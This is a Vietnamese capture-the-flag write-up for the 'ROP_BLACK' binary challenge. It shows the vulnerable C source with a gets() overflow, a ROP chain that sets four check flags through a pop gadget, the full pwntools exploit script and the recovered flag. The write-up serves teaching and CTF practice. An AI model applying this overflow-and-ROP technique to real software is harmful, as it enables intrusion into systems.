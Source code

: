 # ROP_BLACK

**source C:**

```
#include <stdio.h>
#include <stdlib.h>

int check_file = 0;
int african = 0;
int invite_code = 0;
int capcha = 0;


void read_flag(){
	if(!(check_file && african && invite_code && capcha)) {
		printf("403|You aren't allowed to read the flag!\n");
		exit(1);
	}
	
	char flag[65];
	FILE * f = fopen("flag.txt","r");
	if (f == NULL){
		printf("flag.txt doesn't exist, try again on the server\n");
		exit(0);
	}
    fgets( flag, 65, f );
    printf("%s\n",flag);
    fflush(stdout);
}

void check_flag(char* file) {
	if(strcmp(file, "flag.txt") == 0) {
		check_file = 1;
	}
}

void check_african() {
	african = 1;
}

void check_invitecode(int code) {
	if(code == 0xbae) {
		invite_code = 1;
	}
}

void check_capcha(int login, int auth) {
	if(login == 0x062023 && auth == 0xbf1212) {
		capcha = 1;
	}
}

void vuln()
{
	char buffer[10];

	printf("check your identity and read the flag.\n");
	gets(buffer);
}

int main(){

	vuln();
}

```
**checks và vm:**


![image](https://github.com/gookoosss/CTF.-/assets/128712571/ab8d528f-60ea-4e01-b0f7-ee991d345ee1)


**hmm phân tích sơ qua source nha:**

- ở hàm vuln có lỗi BOF ta có thể khai thác bằng cách ret2win
- tại hàm read_flag có if phải thỏa 4 biến check_file , african, invite_code và capcha phải khác 0, muốn nó khác 0 thì ta phải đi qua 4 hàm của nó để đổi nó thành 1

```
if(!(check_file && african && invite_code && capcha)) {
		printf("403|You aren't allowed to read the flag!\n");
		exit(1);
	}
```

- hướng làm của ta bây giờ phải đi qua 4 hàm của các biến rồi với đi qua hàm read_flag là sẽ qua flag

**tóm tắt:**


**ret2win -> check_capcha -> check_invitecode -> check_african -> check_flag -> read_flag -> end**

oke h ta tính offset rồi **ret2win** vào **check_capcha** chạy thử xem sao:


![image](https://github.com/gookoosss/CTF.-/assets/128712571/33790e30-0910-4450-87e7-545dee4b71b5)


tại đây nó so sánh **ebp+0x8 với 0x62023** và **ebp+0xc với 0xbf1212** , nên ta phải gán vào **2 stack trên giá trị 0x62023 và 0xbf1212**

**vấn đề xảy ra ở đây là nếu ta gán 0xbf1212 và 0x62023 vào stack thì khi kết thúc hàm check_capcha nó sẽ trỏ vào tiếp vào địa chỉ ko hợp lý dẫn đến lỗi** 

cách giải quyết bây giờ ta phải tìm **ropgadget** hợp lý để sau khi kết thúc các hàm nó sẽ trỏ đến **ropgadget**, sau đó sẽ **pop các giá trị 0x62023 và 0xb1212** vào thanh ghi nào đó để đến lệnh ret sẽ trỏ đến địa chỉ hợp lệ ta cần 


![image](https://github.com/gookoosss/CTF.-/assets/128712571/04e32e31-f347-4dc2-8d76-00186ad35b04)


mình sẽ chọn **0x080493e9**

bây giờ mình sẽ chạy thử đoạn script này xem sao:

```
payload = b'a'*22 #offset 
payload += p32(exe.sym['check_capcha'])
payload += p32(pop_esi_edi_ebp) + p32(0x062023) + p32(0xbf1212) + p32(0x804ca00)
payload += p32(exe.sym['check_invitecode'])
payload += p32(pop_esi_edi_ebp) + p32(0xbae) + p32(0xbae) + p32(0x804ca00)
```


![image](https://github.com/gookoosss/CTF.-/assets/128712571/08de151a-7d04-4c14-8b08-3f23de771e38)


lúc này ret trỏ đến địa chỉ hợp lệ nên sẽ chạy tiếp và ko báo lỗi 


![image](https://github.com/gookoosss/CTF.-/assets/128712571/f9f9dfb1-1d6e-4c96-a17b-76c091dc9d36)


lúc này **pop_esi_edi_ebp** sẽ **gán 0x62023 và 0xbf1212 vào esi và edi** nên sẽ đẩy 0xbae lên vị trí rbp+0x8 thỏa điều kiện hàm **check_invitecode**

h ta sẽ chạy nốt các hàm còn lại là xong 

```
payload = b'a'*22 #offset 
payload += p32(exe.sym['check_capcha'])
payload += p32(pop_esi_edi_ebp) + p32(0x062023) + p32(0xbf1212) + p32(0x804ca00)
payload += p32(exe.sym['check_invitecode'])
payload += p32(pop_esi_edi_ebp) + p32(0xbae) + p32(0xbae) + p32(0x804ca00)
payload += p32(exe.sym['check_african'])
payload += p32(exe.sym['check_flag'])
payload += p32(exe.sym['read_flag']+1)
```




![image](https://github.com/gookoosss/CTF.-/assets/128712571/6b6bfd1f-4933-4824-af52-9ea11d78d056)


hmm lỗi rồi nè, debug lại xem sao có lỗi ở đâu


![image](https://github.com/gookoosss/CTF.-/assets/128712571/75aad704-c44d-4a7f-9c3e-f120cb6e0526)


à thì ra ở đây nó so sánh địa chỉ của **file flag.txt** với  **rbp+0x0** nên ta chỉ cần gán **rbp+0x0** bằng địa chỉ **flag.txt** là ra rồi 

**script:**

```
from pwn import *

context.binary = exe = ELF('./rop_black',checksec=False)

p = process(exe.path)
# p = remote('chall.battlectf.online',1004)

pop_esi_edi_ebp = 0x080493e9

gdb.attach(p, gdbscript = '''
b*vuln+43
b*vuln+48
c
''')

input()

payload = b'a'*22 #offset 
payload += p32(exe.sym['check_capcha'])
payload += p32(pop_esi_edi_ebp) + p32(0x062023) + p32(0xbf1212) + p32(0x804ca00)
payload += p32(exe.sym['check_invitecode'])
payload += p32(pop_esi_edi_ebp) + p32(0xbae) + p32(0xbae) + p32(0x804ca00)
payload += p32(exe.sym['check_african'])
payload += p32(exe.sym['check_flag'])
payload += p32(exe.sym['read_flag']+1)
# payload += p32(0x804a033)

p.sendline(payload)

p.interactive()
```



![image](https://github.com/gookoosss/CTF.-/assets/128712571/0c1a51e0-8354-490e-a660-e59e614c3859)


lúc này ta làm đúng rồi nè

**flag:**

**battleCTF{rop_Afr1cA_x_7352adb6a9fd43b762413112a9695fde}**






